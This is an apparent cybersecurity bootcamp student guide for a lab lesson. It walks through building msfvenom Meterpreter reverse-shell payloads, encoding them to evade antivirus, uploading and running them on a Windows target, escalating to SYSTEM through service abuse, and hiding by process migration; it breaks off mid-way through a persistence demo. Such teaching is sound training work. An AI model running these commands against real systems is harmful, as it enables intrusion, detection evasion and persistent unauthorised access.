## 17.2 Student Guide: Windows Exploitation, Privilege Escalation, and Credential Access				

### Overview

In today's class, you will expand upon the previous day's activities by leveraging the WMI module in Metasploit to gain a fully working reverse shell on the Windows machine. You will learn about Meterpreter, why it is a better reverse shell, and how its capabilities can help us in post exploitation. You will perform privilege escalation via service abuse.

### Class Objectives

By the end of class, you will be able to:

- Generate payloads using `msfvenom`.

- Operate Meterpreter shells. 

- Perform and explain how process migration works.

### Slideshow

The lesson slides are available on Google Drive here: [17.2 Slides](https://docs.google.com/presentation/d/1PjO_5CiPASedodRk3t3lZ6hwBhwyQ2Y9G4a8SNRNBrc/edit).

-------

### 01. Welcome 

In this lesson, we will pick up where we left off in the previous lesson. 

- In the previous lesson, we concluded by conducting an exploit using the WMI module in Metasploit to run commands remotely on the Windows 10 machine. 

- Today, we'll establish a reverse shell on the WIN10 machine.

- But we will begin by learning about custom payloads and `msfvenom`.

### 02. msfvenom Intro  (0:10)

Today, we'll learn how to create custom payloads using a Metasploit tool **msfvenom**.

The exploitation of services is not as common as it was a decade ago. This is due to the use of defense countermeasures like endpoint detection and response, patching, AV solutions, and IPS/IDS implementation. 

Since attacking vulnerable services are not as likely today, attackers will deliver **custom payloads** through social engineering if they cannot exploit services.

- Reminder: a **payload** is the shell code that runs when an exploit successfully compromises a system.
  - Attackers typically build their own custom payloads that they can include in phishing emails or add to their websites. 
  - When unsuspecting users click the link for the malicious payload, their computers are infected.

- Custom payloads allow customization of various payload options, such as:
    - Architecture
    - Shell type
       - Reverse
       - Bind
       - Meterpreter
       - Other proprietary C2 shell

- Note that in our case, we have remote code execution (RCE), meaning we can upload data, including custom payloads.

**msfvenom**

In order to create these custom payloads, attackers use a tool called **msfvenom**. 

-  `msfvenom` is a Metasploit framework tool that generates and encodes payloads. 
- Although `msfvenom` is part of the Metasploit framework, Metasploit does not need to be running in order to use `msfvenom`. 
- While it's relatively easy to create custom payloads, the real challenge is creating a payload that bypasses network detection by IDS and antivirus (AV) solutions.

**Encoding** is a method used to evade detection tools.
  - Encoding changes the signature of an exploit or payload, creating a new signature that has no written rule.
  - This change in signature allows payloads to bypass detection from AV and IDS tools that detect known malicious signatures.

We'll now move through the basics of `msfvenom`'s help menu and demonstrate some basic command options available for use with encoders, payloads, and formats.

#### Custom Payload Creation with msfvenom Demonstration

Log in to the Kali Linux (attacker) VM.

1. First, we'll explore the `msfvenom` help menu to learn which command options are available.

    - Launch the terminal, and run the following command: `msfvenom`

    - We are presented with a list of all available command options for `msfvenom`, as the following image shows:

      

    - Some of the most important options in this list include:
       - `-p`: Designates the Metasploit payload we want to use.
       - `-e`: Designates the encoder we want to use.
       - `-a`: Designates the architecture we want to use (the default is `x86`).
       - `-s`: Designates the maximum size of the payload.
       - `-i`: Designates the number of iterations with which to encode the payload.
       - `-x`: Designates a custom executable file to use as a template.
       - `-o`: Designates an output file to be created, specifying its name and location.

2. Next, list all of the available payloads.

    - Run the following command: `msfvenom -l payloads`

       - The output should provide a list of all currently installed payloads in alphabetical order by name and description, as the following image shows:

       

3. List all of the executable files and transform formats supported by `msfvenom`.

    - Run the following command: `msfvenom -l formats`

    - We're presented with a list of all of the file formats in which payloads can be delivered, as the following image shows:

    

4. List `msfvenom`'s encoders. The encoders are various algorithms and encoding schemes that Metasploit uses to re-encode payloads.

     - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the following image shows:

    

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.

#### msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Note the following command:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444`

   - Syntax breakdown:

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-a x86`: Designates the architecture we will use. The default is `x86`.
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.
      - `-f exe`: Indicates the file type to create (in this case, `.exe`).
      - `-o /tmp/malware.exe`: Creates an output file, specifying the file name (`malware.exe`) and location (inside the `/tmp` directory).

- Next, refer to the command that we used in the previous lesson, and try to break it down: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.

In the next activity, you will build your own custom command in an exploitation attack.

### 03. msfvenom Payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 

- [Class Do Activity File: Custom Payload with `msfvenom`](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    

5. Upload your payload via the following command:

    - `put shell.exe`

    

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    

    - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    

10. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the following image shows:

    

    - **Note**: After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be open.

11. To view active sessions, type `sessions` and select the session based on the ID via the following command:

     - `sessions -i [session ID]`

    
    
    - You now have a **Meterpreter shell**, which we will cover in the next lesson!

Congratulations! You successfully created, transferred, and executed a custom payload on a Windows machine.

### 04.  Meterpreter  

Since we now have a Meterpreter shell on the target, we need to know how a Meterpreter shell differs from the standard shell. Remember that we briefly introduced Meterpreter in last week's lesson as a feature within Metasploit, but we will dive deeper into the tool in this section. 

- **Meterpreter** is a Linux-style shell that runs on the machines you compromise.

- Using Meterpreter is similar to using a normal shell, but it has its own built-in commands and pen testing features. 
  - Think of it like an extendable command shell that provides the same interface across platforms.

- Meterpreter is slightly more difficult to detect and leaves minimal traces on victim machines or the network. 
  - It runs entirely in memory, meaning it does not create files on the target.
  - It does not start any new processes on the victim machine. Instead, it "injects" itself into a program that's already running. Therefore, users see that Meterpreter has started by looking at running processes. 
  - This is not the case with an SSH session, which launches a new shell process.
  - Meterpreter encrypts all communication to and from the victim machine.

With Metasploit, we can use Meterpreter to: 
- Upload and download files to and from a target. 
- Set up port forwarding through the target. 
- Switch between Meterpreter shells. 
- Run Metasploit modules on remote hosts. 

#### Meterpreter Basics

The easiest way to open a Meterpreter shell is to select an exploit and set a Meterpreter payload. 
  - A common payload is `windows/meterpreter/reverse_tcp`.
  - **Note**: You can have multiple Meterpreter sessions open on multiple machines.

The following commands are needed to connect to a Meterpreter session:

- `sessions`: Lists all open sessions.
- `sessions -i <Session ID>`: Connects to a designated session.
- `sessions -i 1`: Brings our session to the foreground, meaning any command we run on our host machine will be run on the Meterpreter shell on the target. 

Once we've connected to a Meterpreter session, we can run many special commands to get information on the target:

  - `?`: Prints Meterpreter's help page, which lists all possible commands.
  - `getuid`: Prints user ID.
  - `getwd`: Prints current working directory.
  - `ifconfig`: Prints the victim's network information.
  - `sysinfo`: Gathers system information (OS, architecture, kernel version). 
  - `upload`: Uploads a file to the target.
  - `download`: Downloads a file from the target.
  - `search`: Searches for resources, similar to the `find` command in Linux.
  - `run win_privs`: Provides more detailed Windows privilege information.
  - `run win_enum`: Runs a comprehensive suite of Windows enumerations and stores the results on the attacking machine.

### 05. Privilege Escalation 

In the previous activity, we successfully gained access to the Windows 10 machine and are now the user `tstark`, who has elevated privileges on the Windows machine.

- While we have many capabilities with these privileges, there are additional privileges which can be obtained.

In order to understand how to further escalate our privileges on the user `tstark`, we need to better understand privileges and privilege escalation within Windows.

In the following section we will cover: 
   - How Windows uses groups to organize permissions
   - How specific groups are important for privilege escalation
   - How to check Windows privileges for a user 
   - The Windows concept of **User Access Control (UAC)** and access tokens
   - Privilege Escalation Paths and techniques

#### Windows Groups and privileges

In Windows, permissions are done through **groups**. The group a user belongs to determines the permissions/privileges that the user has.

- Based on the group a user is in, a user can be either:
  - **High privileged**, users with elevated privileges
  - **Low privileged**, limited privileges for a local user

- For example, the **Users** group is the default group that all new local users are added to. The **Domain Users** is the default group that a new domain user will be added to.  These groups are both considered low privileged, and only allow basic access, such as accessing their own home folders in `C:\Users\`.

-  There are several groups with high privileges in Windows, both from a local and domain context, which provide elevated privileges. For example, the **Account Operators** group is a domain group whose members can reset passwords for any user. 

We're particularly interested in two groups:

- **Domain Administrators**, which have very high privileges in Active Directory. 
   - This allows the modification of group policies, creation of users, ability to set permissions, etc.

-  **Administrators**, which is the local group for the administrators. 
   - On a local Windows 10 machine, this allows users to create new local users, assign them to local groups, reset passwords, etc.
   
Note the following: 
   -  **Administrators**, which is Windows formal name, is the group name for the local administrators users.
   -  **Domain Administrators** is the group name for the domain administrators users.

A local administrator in Windows is a high-privileged user that also allows high access to the operating system. 
 - This user may access any folder or files they wish and modify the permissions on them. 
 - The user tstark, under whose name we have a Meterpreter session on the WIN10 machine, is a local administrator to the WIN10 machine.
 - Tstark is only a **local** administrator, not a **domain** administrator, meaning they do not have administrative rights on any machines on the network aside from this WIN10 machine.

While the Administrators group has many privileges in Windows, it does not grant the HIGHEST privileges possible. 
-  For example, modification of the system's configuration files requires **SYSTEM** privileges, which is the Windows equivalent to root in Linux.
- While a user can be assigned to the Administrators group in Windows, there is no group for SYSTEM. 
- SYSTEM is technically the computer account. Computer accounts will always have full access to their own machine. 
- A penetration testers goal could be to escalate privileges to **SYSTEM** privileges.

#### Checking Privileges in Windows

Now that we know how permissions are assigned, the very first thing a penetration tester should do is check the user's privileges. 

- In Windows, we can accomplish this a few  ways.

  - **Method 1**: In PowerShell or cmd, `whoami` will give the name of the user you are logged in as. 
    - `whoami /priv` will list out the permissions that user has, as the following image shows:

      

  - **Method 2**: In Meterpreter, this is accomplished with `getprivs`, as the following image shows:

     

These privileges are very important to understand, as they determine how privileged your user is and which privilege-escalation technique should be used. 

#### User Account Control and Tokens 

In Windows, users have the ability to right-click on a program and select **Run as Administrator** if they are logged in as an administrator. By default, this is a feature of **User Account Control (UAC)**. 

UAC is a security feature in Windows that applies the principal of least privilege, meaning that the only time administrative access should be used is when it is needed. 
- For example, checking the IP address can be accomplished by any user and does not need to be done as an administrator. 
- However, changing the IP address requires administrator privileges. 

There following image compares a "normal" PowerShell session and a PowerShell session run as an administrator:



Note how many more permissions a process has when run as administrator. This will become very important in a later activity, when we dump credentials with Mimikatz.

UAC is possible due to **access tokens** in Windows. Per [Microsoft](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens):

- "An access token is an object that describes the security context of a process or thread. The information in a token includes the identity and privileges of the user account associated with the process or thread. When a user logs on, the system verifies the user’s password by comparing it with information stored in a security database. When a user’s credentials are authenticated, the system produces an access token. Every process executed on behalf of this user has a copy of this access token." 

In Windows, administrators have a **split token**, meaning they log on with standard user permissions. Their administrator permissions are not present until they specifically ask for them (e.g., right-click and select **Run as administrator**), at which time a new access token is created and applied to whatever new process they created.

#### Privilege-Escalation Paths and Techniques in Windows

Now that we have an understanding in how permissions work, we are ready to figure out a method to escalate our privileges for the `tstark` user!

 - There are many privilege-escalation techniques in Windows, and typically two "paths" to privilege escalation:
    - **1.** `Low-privilege user > High-privilege user > SYSTEM` 
    - **2.** `High-privilege user > SYSTEM`

 - The first path starts from a low user context and tries to escalate to high privilege, then to SYSTEM. 
 - The second starts as high privilege, then escalates to SYSTEM. 

For our example, we will use the latter path, as our user tstark is a local administrator with high privileges.

- This is important because certain privilege-escalation techniques are specific to a low-privilege user trying to escalate to a high-privilege user. 

- Since we're already highly privileged, we have an easier task of escalating to SYSTEM.

Since we now have chosen the path, we now need to choose our technique.

- For our example, we will utilize the MITRE technique **[T1543.003](https://attack.mitre.org/techniques/T1543/003/): create or modify system process: Windows service** to escalate our privileges.

   - Per MITRE: *"Services may be created with administrator privileges but are executed under SYSTEM privileges, so an adversary may also use a service to escalate privileges from administrator to SYSTEM. Adversaries may also directly start services through Service Execution."*

Services in Windows are crucial to the operating system running. 
- In addition, several third-party programs require and depend on services to run. 
- Because of this, services will always run as SYSTEM by default. 
- Also by default, administrators are allowed to create services.

So our privilege-escalation attack path will take the following steps:
- **1.** As an administrator, create a new service in Windows.
- **2.** Tell the service to execute an executable of our choice, such as a Meterpreter payload.
- **3.** Start the service and listen for the payload callback in Metasploit. 

Luckily, Metasploit has a dedicated module for this, which you will use in the next activity. 

### 06. Windows Privilege Escalation Activity

- [Activity File: Windows Privilege Escalation](Activities/02_PrivEsc/Unsolved/README.md)

### 07. Windows Privilege Escalation Review

- [Solution Guide: Windows Privilege Escalation](Activities/02_PrivEsc/Solved/README.md)

### 08. Process Migration

Since we are now SYSTEM and have full access to the machine, we can now explore process migration.

- **Process migration** is the action of moving the active process of the C2 agent to another active process. 
  - Essentially, it allows a current process to "inject" or "migrate" its data into another process. 
- The old process will then take on the name of the new, migrated, process. 
- Process migration is also known as **process injection**. 
- Process migration is more often used with Meterpreter.

#### Process Migration Purposes

There are two primary purposes for process migration or injection:

1. To *conceal* the identity of a C2 agent.
2. To move to a more *stable* process.

For example:  
 - If you send a payload named `payload.exe` to a user and they double-click it, the C2 agent process is called `payload.exe`.
 - When inspecting the active processes on the machine, `payload.exe` is very obvious to threat hunters and blue team members.
 - In addition, several defense products will recognize the name and quickly shut it down.

Migrating to another process, say `SearchIndexer.exe`, conceals the name of the payload. So instead of Meterpreter communicating from the process `payload.exe`, it communicates from `SearchIndexer.exe`, because the contents of `payload.exe` were migrated (injected) into `SearchIndexer.exe`.
 - In addition to adding a layer of stealth, this also improves the stability of the process.
 - Payloads are often generated for a general OS and architecture, e.g., Windows x64. 
 - These payloads do not take into account certain things such as necessary DLLs in order to run properly.
 - By migrating to another process that Windows has spawned, the payload will become much more stable.

**Process Migration Techniques**

We can use many techniques for process migration and injection. However, at the base they are all similar and leverage the Windows API. 
- They work as follows:
  - (1) Open a handle to a target process.
  - (2) Allocate memory in the target process.
  - (3) Write the payload contents into the newly allocated section of memory in the target process.
  - (4) Execute the new payload contents in the target process.

### 09.  Process Migration Activity 

In Meterpreter, the `migrate` command will allow us to move from one process to another. 

1. View the current process ID (PID) with the command `getpid`, as the following image shows:

    

2. Next, view the active processes on the system with the command `ps`, as the following image shows:

    

3. Using the "PID" column, identify our current process by matching the output from `getpid`, as the following image shows:

    

4. We will now identify a new process to migrate into.

    - When migrating processes, it's very important to migrate into a process that is the same architecture (x86/x64) and the same user.

    - E.g., if our current process is running a x64 as SYSTEM, we want to migrate to another process that is x64 and SYSTEM.

    - There are some processes we do not want to inject into, since they are crucial to the operating system and migrating into them could potentially crash the machine. These processes include:
       * LSASS.exe
       * Winlogon.exe
       * wininit.exe
       * csrss.exe
       * smss.exe
       * services.exe

5. Identify any instance of the process `svchost.exe`, and ensure that it is running as SYSTEM.

    - `svchost.exe` is a common process used by processes that are services.

    - The PID will be different on each machine, so make sure you view the PID for svchost on your own machine.

    

6. Migrate to this new process using the command `migrate [target svchost.exe PID]`, as the following image shows:

    

We have now migrated to a new, stable process and are ready to explore persistence.

### 10. Windows Persistence

The concept and purpose of persistence is the same in Windows as it is Linux.
- As a reminder, the purpose of **persistence** is to establish a continuous method of access to the compromised machine or network in case the initial connection is severed. 

There are many techniques to establish persistence in Windows, such as **Abusing Task Scheduler**.
  - Scheduled tasks in Windows are similar to cronjobs in Linux; they are programmable tasks that can be executed at a defined interval.
  - By default, Windows will have significantly more default scheduled-task jobs created than Linux. This gives the penetration tester an opportunity to blend in with existing scheduled tasks.
  - You will be using this technique in their upcoming activity

There are also MITRE techniques for persistence. Refer to the MITRE page for persistence: https://attack.mitre.org/tactics/TA0003/.

- **MITRE technique: [Boot or Logon Initialization Scripts: Logon Script (Windows)](https://attack.mitre.org/techniques/T1037/001/)**
  - In this technique, a pentester can register a script as a registry key that will execute on startup or login. 

- **MITRE technique: [Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)**
  - In this technique, a pentester can modify a service to run an executable on startup. 
    - Services are run as SYSTEM by default. 
    - Even though services can be abused for privilege escalation, they can also be used for persistence.

- **MITRE technique: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/)**
  - This technique leverages Windows Management Instrumentation (WMI), a way of managing Windows machines, to perform an action once a specific event in Windows is triggered. 

  - For example, whenever a logon event is created in Windows (which occurs when a user logs in), use WMI to start a new process (which could be a payload). 

- **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pentester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

These are just some examples of persistence techniques in Windows; and this isn't a comprehensive list.
	
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, we will use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This will require an active shell as SYSTEM on the Windows10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
    **Note**: If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

